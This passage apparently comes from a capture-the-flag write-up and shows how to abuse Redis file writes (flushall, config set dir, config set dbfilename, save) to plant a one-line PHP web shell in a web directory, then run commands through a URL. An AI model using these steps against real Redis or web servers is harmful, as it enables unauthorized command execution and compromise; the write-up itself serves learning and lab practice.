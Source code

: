 
### WebShell

[This post](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html) on PacketStorm details how I can use Redis to write arbitrary files on disk. I can flush the database, write some data into it, and then back it up to a target location. The article talks about writing an SSH key. SSH isn’t enabled here, but, because I know that the database server shares disk space with www, I can write a web shell.

#### Exploit Limitations

This isn’t by any means perfect. For example, the database will compress repeated text patterns, so could I lose some of the text I want to write. So for example, when I tried to write `<br/>` into multiple places in a php file, only the first actually made it through as desired. Even if I tried using `<br/>` and `<br />`, the second `<br` was replaced with binary data. Similarly, when I wrote a command to get a `perl` reverse shell, the pattern `,">&S");` was replaced and thus broke the script.

#### Exploit to WebShell

Luckily for me, I can write a simple php webshell, and there’s no repeats, and php doesn’t care about garbage before or after the shell.

Steps (all in `redis-cli`):
1. flush the database
2. write shell to database
3. set directory
4. set filename
5. save

```

root@kali# cat redis.txt  # show the shell file

<?php system($_REQUEST['cmd']); ?>

root@kali# redis-cli -h 127.0.0.1  flushall  # step 1
OK
root@kali# cat redis.txt | redis-cli -x set crackit  # step 2
OK
root@kali# redis-cli 
127.0.0.1:6379> config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/  # step 3
HISTORY: /root/.rediscli_history
OK
127.0.0.1:6379> config set dbfilename "df.php"       # step 4
HISTORY: /root/.rediscli_history
OK
127.0.0.1:6379> save                                 # step 5
HISTORY: /root/.rediscli_history
OK

```

Now check out `http://127.0.0.1/8924d0549008565c554f8128cd11fda4/df.php?cmd=id`:
